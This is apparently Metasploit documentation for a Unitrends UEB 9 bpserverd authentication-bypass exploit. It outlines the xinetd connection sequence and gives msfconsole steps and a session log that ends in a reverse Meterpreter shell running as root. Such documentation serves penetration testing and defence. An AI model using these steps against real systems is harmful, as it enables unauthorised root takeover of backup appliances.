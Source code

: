 ## Vulnerable Application

  Unitrends UEB 9 bpserverd authentication bypass RCE

  This exploit uses roughly the same process to gain root execution
  as does the apache user on the Unitrends appliance. The process is
  something like this:

  1.  Connect to xinetd process (it's usually running on port 1743)
  2.  This process will send something like: `?A,Connect36092`
  3.  Initiate a second connection to the port specified
      in the packet from xinetd (36092 in this example)
  4.  send a specially crafted packet to xinetd, containing the
      command to be executed as root
  5.  Receive command output from the connection to port 36092
  6.  Close both connections


## Verification Steps

  1. ```use exploit/linux/misc/ueb9_bpserverd ```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```exploit```
  5. A meterpreter session should have been opened successfully

## Scenarios

### UEB 9.1 on CentOS 6.5

```
msf > use exploit/linux/misc/ueb9_bpserverd
msf exploit(ueb9_bpserverd) > set rhost 10.0.0.230
rhost => 10.0.0.230
msf exploit(ueb9_bpserverd) > set lhost 10.0.0.141
lhost => 10.0.0.141
msf exploit(ueb9_bpserverd) > exploit

[*] Started reverse TCP handler on 10.0.0.141:4444
[*] 10.0.0.230:1743 - 10.0.0.230:1743 - pwn'ng ueb 9....
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port received: 45425
[*] 10.0.0.230:1743 - Connecting to 45425
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] 10.0.0.230:1743 - Command Stager progress -  26.71% done (199/745 bytes)
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port received: 40889
[*] 10.0.0.230:1743 - Connecting to 40889
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] 10.0.0.230:1743 - Command Stager progress -  53.56% done (399/745 bytes)
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port received: 40016
[*] 10.0.0.230:1743 - Connecting to 40016
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] 10.0.0.230:1743 - Command Stager progress -  80.27% done (598/745 bytes)
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port received: 53649
[*] 10.0.0.230:1743 - Connecting to 53649
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] Sending stage (826872 bytes) to 10.0.0.230
[*] Meterpreter session 1 opened (10.0.0.141:4444 -> 10.0.0.230:33715) at 2017-10-06 11:33:56 -0400
[*] 10.0.0.230:1743 - Command Stager progress - 100.00% done (745/745 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter >

```
